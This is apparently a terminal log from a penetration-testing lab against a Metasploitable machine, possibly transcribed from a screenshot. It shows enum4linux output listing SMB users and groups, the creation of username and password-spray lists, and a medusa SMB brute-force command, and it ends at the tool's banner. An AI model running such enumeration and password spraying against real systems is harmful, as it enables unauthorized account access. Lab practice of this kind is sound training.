                                                                                                                                                                      
S-1-5-21-1042354039-2475377354-766472396-500 METASPLOITABLE\Administrator (Local User)                                                                               
S-1-5-21-1042354039-2475377354-766472396-501 METASPLOITABLE\nobody (Local User)
S-1-5-21-1042354039-2475377354-766472396-512 METASPLOITABLE\Domain Admins (Domain Group)
S-1-5-21-1042354039-2475377354-766472396-513 METASPLOITABLE\Domain Users (Domain Group)
S-1-5-21-1042354039-2475377354-766472396-514 METASPLOITABLE\Domain Guests (Domain Group)
S-1-5-21-1042354039-2475377354-766472396-1000 METASPLOITABLE\root (Local User)
S-1-5-21-1042354039-2475377354-766472396-1001 METASPLOITABLE\root (Domain Group)
S-1-5-21-1042354039-2475377354-766472396-1002 METASPLOITABLE\daemon (Local User)
S-1-5-21-1042354039-2475377354-766472396-1003 METASPLOITABLE\daemon (Domain Group)
S-1-5-21-1042354039-2475377354-766472396-1004 METASPLOITABLE\bin (Local User)
S-1-5-21-1042354039-2475377354-766472396-1005 METASPLOITABLE\bin (Domain Group)
S-1-5-21-1042354039-2475377354-766472396-1006 METASPLOITABLE\sys (Local User)
S-1-5-21-1042354039-2475377354-766472396-1007 METASPLOITABLE\sys (Domain Group)
S-1-5-21-1042354039-2475377354-766472396-1008 METASPLOITABLE\sync (Local User)
S-1-5-21-1042354039-2475377354-766472396-1009 METASPLOITABLE\adm (Domain Group)
S-1-5-21-1042354039-2475377354-766472396-1010 METASPLOITABLE\games (Local User)
S-1-5-21-1042354039-2475377354-766472396-1011 METASPLOITABLE\tty (Domain Group)
S-1-5-21-1042354039-2475377354-766472396-1012 METASPLOITABLE\man (Local User)
S-1-5-21-1042354039-2475377354-766472396-1013 METASPLOITABLE\disk (Domain Group)
S-1-5-21-1042354039-2475377354-766472396-1014 METASPLOITABLE\lp (Local User)
S-1-5-21-1042354039-2475377354-766472396-1015 METASPLOITABLE\lp (Domain Group)
S-1-5-21-1042354039-2475377354-766472396-1016 METASPLOITABLE\mail (Local User)
S-1-5-21-1042354039-2475377354-766472396-1017 METASPLOITABLE\mail (Domain Group)
S-1-5-21-1042354039-2475377354-766472396-1018 METASPLOITABLE\news (Local User)
S-1-5-21-1042354039-2475377354-766472396-1019 METASPLOITABLE\news (Domain Group)
S-1-5-21-1042354039-2475377354-766472396-1020 METASPLOITABLE\uucp (Local User)
S-1-5-21-1042354039-2475377354-766472396-1021 METASPLOITABLE\uucp (Domain Group)
S-1-5-21-1042354039-2475377354-766472396-1025 METASPLOITABLE\man (Domain Group)
S-1-5-21-1042354039-2475377354-766472396-1026 METASPLOITABLE\proxy (Local User)
S-1-5-21-1042354039-2475377354-766472396-1027 METASPLOITABLE\proxy (Domain Group)
S-1-5-21-1042354039-2475377354-766472396-1031 METASPLOITABLE\kmem (Domain Group)
S-1-5-21-1042354039-2475377354-766472396-1041 METASPLOITABLE\dialout (Domain Group)
S-1-5-21-1042354039-2475377354-766472396-1043 METASPLOITABLE\fax (Domain Group)
S-1-5-21-1042354039-2475377354-766472396-1045 METASPLOITABLE\voice (Domain Group)
S-1-5-21-1042354039-2475377354-766472396-1049 METASPLOITABLE\cdrom (Domain Group)

 ===============================( Getting printer info for 192.168.57.3 )===============================
                                                                                                                                                                     
No printers returned.                                                                                                                                                


enum4linux complete on Wed Oct 29 13:05:35 2025

                                                                                                                                                                     
┌──(root㉿kali)-[/home/kali]
└─# echo -e "user\nmsfadmin\nservice">smb_user.txt         
                                                                                                                                                                     
┌──(root㉿kali)-[/home/kali]
└─# echo -e "n123456\nmsfadmin\nqwerty\password\nWelcome123" > senhas_spray.txt
                                                                                                                                                                     
┌──(root㉿kali)-[/home/kali]
└─# medusa -h 192.168.57.3 -U smb_user.txt -P senhas_spray.txt -M smbnt -t 50
Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>
